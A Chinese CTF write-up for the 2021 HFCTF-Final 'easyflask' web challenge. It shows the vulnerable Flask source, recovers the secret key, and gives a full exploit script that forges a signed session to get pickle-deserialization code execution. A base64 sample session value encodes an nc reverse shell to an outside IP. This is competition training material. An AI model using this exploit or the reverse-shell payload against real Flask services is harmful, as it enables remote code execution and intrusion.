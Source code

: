 ```yaml
---
layout: post
title: 2021 HFCTF-Final web wp
date: 2021-05-17 16:37 +0800
last_modified_at: 2021-05-17 16:37:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 easyflask

进入网页观察，发现文件读取，读到源码：

```
#!/usr/bin/python3.6 
import os 
import pickle 
from base64 import b64decode 
from flask import Flask, request, render_template, session 
app = Flask(__name__) 
app.config["SECRET_KEY"] = "glzjin22948575858jfjfjufirijidjitg3uiiuuh" 
User = type('User', (object,), {
    'uname': 'test', 
    'is_admin': 0, 
    '__repr__': lambda 
    o: o.uname, 
    })
 
@app.route('/', methods=('GET',)) 
def index_handler(): 
    if not session.get('u'): 
        u = pickle.dumps(User()) 
        session['u'] = u 
    return "/file?file=index.js" 
    
@app.route('/file', methods=('GET',)) 
def file_handler(): 
    path = request.args.get('file') 
    path = os.path.join('static', path) 
    if not os.path.exists(path) or os.path.isdir(path) \
    or '.py' in path or '.sh' in path or '..' in path or "flag" in path: 
        return 'disallowed' 
    with open(path, 'r') as fp: 
        content = fp.read() 
        return content 
    
@app.route('/admin', methods=('GET',)) 
def admin_handler(): 
    try: 
        u = session.get('u') 
        if isinstance(u, dict): 
            u = b64decode(u.get('b')) 
        u = pickle.loads(u) 
    except Exception: 
        return 'uhh?' 
    if u.is_admin == 1: 
        return 'welcome, admin' 
    else: 
        return 'who are you?' 

if __name__ == '__main__': app.run('0.0.0.0', port=80, debug=False)
```

其中发现了pickle反序列化，但是没有secret_key，去搜索/proc/self/environ目录下发现环境变量`secret_key`，

```
secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh
```

因而可以伪造session对目标进行pickle反序列化攻击



知识延伸：

pickle反序列化由`pickle.dump()`或`pickle.dumps()`与`pickle.load()`或`pickle.loads()`进行序列化与反序列化的操作，而由此生成的session结构则为

```
base64 + '.' + 时间戳 + '.' + 尾部，其中尾部为校验哈希值，base64格式形如：
{"u":{" b":"Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDEwLjEyMi4yMTguMjE1IDY2NjYgLWUgL2Jpbi9zaCcpIgpwMQp0cDIKUnAzCi4="}}
```

其中b的值为`pickle.dumps()`处理后的字段值再经过base64加密后得到的结果。

而与php反序列化相似的是，`pickle.loads()`或`pickle.load()`在进行反序列化时会默认调用函数`__reduce__`，因而可以覆写类中的`__reduce`函数产生RCE，如这次payload中的

```
class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/heartless"
        return (os.system,(cmd,))
```

本题大致思路：

由于根目录无权限读，因而采用`__reduce__`在最高权限的情况下将flag文件复制至`/tmp/heartless`目录下进行读取，而`/tmp/heartless`读取权限则是公开。

exp：

```
# -*- coding: utf-8 -*-
"""
Created on Tue May 11 17:17:22 2021

@author: 86136
"""


#!/usr/bin/python3.6
import pickle 
import base64
from flask.sessions import SecureCookieSessionInterface
import requests
import re
import pickletools
Secret_key = "glzjin22948575858jfjfjufirijidjitg3uiiuuh" 

url = "http://9d391cae-8dad-40fe-8c4c-55bae82ce64e.node3.buuoj.cn"

class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/heartless"
        return (os.system,(cmd,))

class FakeApp:
    secret_key = Secret_key

exp = {
       "b" : base64.b64encode(pickle.dumps(User()))
           }

fake_app = FakeApp()
session_interface = SecureCookieSessionInterface()
serializer = session_interface.get_signing_serializer(fake_app)
cookie = serializer.dumps({'u':exp})
print(cookie)

headers = {
    "Accept":"*/*",
    "Cookie":"session={0}".format(cookie)
    }


req = requests.get(url+"/admin", headers=headers)
print(req.text)

req = requests.get(url+"/file?file=/tmp/heartless", headers=headers)
print(req.text)
```

